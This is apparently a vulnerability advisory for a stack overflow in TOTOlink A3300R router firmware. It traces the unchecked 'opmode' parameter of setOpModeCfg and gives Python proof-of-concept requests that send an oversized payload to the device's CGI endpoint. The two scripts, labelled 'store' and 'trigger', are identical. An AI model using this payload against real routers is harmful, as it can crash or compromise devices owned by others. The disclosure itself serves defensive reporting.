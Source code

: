 ## Summary

A stack overflow vulnerability exists in the TOTOlink A3300R firmware. The `opmode` POST parameter accepted by `setOpModeCfg` function is written to the configuration key `opmode_custom` via `Uci_Set_Str` without length or content validation. The stored value is later read via `setOpModeCfg`function and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & version

- Device: TOTOlink A3300R
- Firmware Version: V17.0.0cu.557_B20221024
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `Uci_Set_Str` and `Uci_Get_Str` functions that handle `opmode_custom`.

## Vulnerability details

The `setOpModeCfg` endpoint accepts a POST parameter `opmode` and calls `Uci_Set_Str(11, "opmode", "opmode_custom", v3)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_125923.png)

The `setOpModeCfg` endpoint retrieves the `opmode_custom` parameter using `Uci_Get_Str(11, "opmode", "opmode_custom", v18)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_130134.png)

## POC

1. **Store `opmode_custom` **

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = b"a"*0x1000
data = {"topicurl":"setOpModeCfg","opmode":payload}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

2. **Trigger**

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = b"a"*0x1000
data = {"topicurl":"setOpModeCfg","opmode":payload}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

3. **result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_114256.png)

